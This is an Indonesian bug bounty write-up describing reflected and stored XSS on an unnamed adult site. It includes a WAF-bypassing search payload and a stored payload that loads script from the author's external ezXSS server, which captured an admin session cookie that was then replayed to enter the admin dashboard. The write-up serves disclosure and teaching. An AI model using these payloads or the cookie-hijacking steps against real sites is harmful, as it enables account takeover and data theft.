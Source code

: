 ```yaml
---
layout: post
title: Mengintip Dashboard Admin Situs Haram
categories: [Bug Bounty Write-Up]
author: Akbar Kustirama
---
```


Kegiatan ini berawal dari salah satu teman yang memberi informasi bahwa dia baru saja mendapatkan _bounty_ dari salah satu situs haram yang ada di luar sana. Singkat cerita, saya mencoba mencari peruntungan serupa dengan mencari situs sejenis di pencarian Google dengan harapan menemukan situs yang cukup "umum" yang secara fitur punya banyak bagian yang bisa saya coba untuk masuki.

Untuk mempermudah dan agar saya tidak perlu menyebut nama situsnya, mari kita sebut situs ini sebagai `situsharam.com`.

<img src="https://infosec.zerobyte.id/images/screenshot-situs-haram.png" alt="Mengintip Dashboard Admin Situs Haram">

Setelah mencoba beberapa fitur seperti list _actors/actress_, kategori, pencarian, serta fitur yang membutuhkan autentikasi pengguna seperti _edit profile_, _like_, _comment_ dan semacamnya, saya menemukan beberapa celah yang detailnya akan saya jelaskan di bawah ini.

## Reflected XSS pada Halaman Pencarian
Celah pertama adalah _Reflected XSS_ yang saya temukan di halaman pencarian. Payload yang saya gunakan adalah: 

```html
asd"><ScRiPt%20>alert(1);<%2fscript>
```

Saat mencoba, saya menemukan bahwa karakter `/` diblok oleh WAF sehingga saya coba untuk mem-bypass rule tersebut menggunakan karakter `%2f`. Dari temuan ini saya bisa menggunakan _payload_ yang sudah disisipi _script_ untuk mencuri `cookie` pengguna.

Pada kasus di dunia nyata, seorang penyerang akan menyisipkan javascript yang bertujuan untuk mencuri _cookie_ pengguna dan beberapa data lain, lalu mengirimnya pada server penyerang. 

Untuk melakukan ini, penyerang perlu mengirim URL (yang sudah disisipi _payload_) ke pengguna lain atau pemilik/admin dari situs ini. Lalu penyerang akan menggunakan data tersebut untuk masuk di situs target tanpa menggunakan _username_ dan _password_.

<img src="https://infosec.zerobyte.id/images/screenshot-reflected-xss-pencarian.jpg" alt="Mengintip Dashboard Admin Situs Haram">

## Stored XSS pada Profile
Saya rasa kebanyakan _bug bounty hunter_ (termasuk saya) akan mencoba memasukkan _payload_ ke setiap form yang kami temui. Dengan modal "penting yakin", saya mengisi `"><h1>asdf</h1>"` pada kolom nama di halaman _Edit Profile_.

Setelah menyimpan perubahan tersebut, kode HTML yang saya sisipkan dibaca oleh situs sehingga menandakan adanya potensi untuk _Stored XSS_. 

<img src="https://infosec.zerobyte.id/images/screenshot-html-injection-profile.jpg">

Saya melanjutkan dengan memasukkan payload:

```html
"><script src=//x.serversaya.com></script><x="
```

- `">` = digunakan untuk keluar dari input form (```<input>```)
- `<script src=//x.serversaya.com></script>` = digunakan untuk memanggil script dari server saya (<a href="https://github.com/ssl/ezXSS" target="_blank">ezXSS</a>)
- `<x="` = digunakan untuk membuka kembali hasil escape dari input form, sehingga tidak ada " type="text" dst seperti screenshot di atas

Setelah beberapa waktu menunggu, saya mendapat notifikasi bahwa payload di atas ditemukan di domain lain (cp.situslain.com) yang mana adalah dashboard admin dari `situsharam.com`. Berikut detail laporan dari <a href="https://github.com/ssl/ezXSS" target="_blank">ezXSS</a> saat payload saya ditemukan di dashboard admin (klik gambar untuk memperbesar).

<a href="https://infosec.zerobyte.id/images/screenshot-xss-dashboard-admin-situs-haram.jpg" target="_blank"><img src="https://infosec.zerobyte.id/images/screenshot-xss-dashboard-admin-situs-haram.jpg" alt="Mengintip Dashboard Admin Situs Haram"></a>

Pada tangkapan layar di atas, terlihat ada `cookie` admin yang tertangkap oleh kode javascript yang saya panggil. Saya akan mencoba menggunakan Cookie tersebut untuk masuk ke `https://cp.situslain.com/user/edit/{userid}`.

Ketika mengakses `https://cp.situslain.com/user/edit/{userid}`, saya dialihkan ke halaman login `https://cp.situslain.com/user/login`. 

<img src="https://infosec.zerobyte.id/images/screenshot-login-page-set-cookie.jpg" alt="Mengintip Dashboard Admin Situs Haram">

Selanjutnya saya mencoba _set cookie_ manual melalui `Console` pada `inspect element` dengan cara memasukkan kode javascript. Cookie ini berasal dari laporan ezXSS di atas:

```javascript
document.cookie = 'PHPSESSID=lot4#######################';
````

Setelah Cookie di-set, saya mencoba mengulang lagi dan akhirnya berhasil membuka halaman `https://cp.situslain.com/user/edit/{userid}`.

<img src="https://infosec.zerobyte.id/images/screenshot-dashboard-admin-situs-haram.jpg" alt="Mengintip Dashboard Admin Situs Haram">

**Disclaimer**  
_Level_ dan _Credit_ yang tertera pada screenshot adalah pemberian admin (apresiasi, menurut istilah sekarang) setelah saya melaporkan temuan ini. Proses pelaporan tidak akan saya jelaskan di sini, hehe.

Sekian artikel "Mengintip Dashboard Admin Situs Haram". Semoga ada yang bisa dipelajari dari artikel ini, selain akhirnya kita tahu bentuk halaman dashboard admin situs haram. Sampai jumpa di artikel selanjutnya.

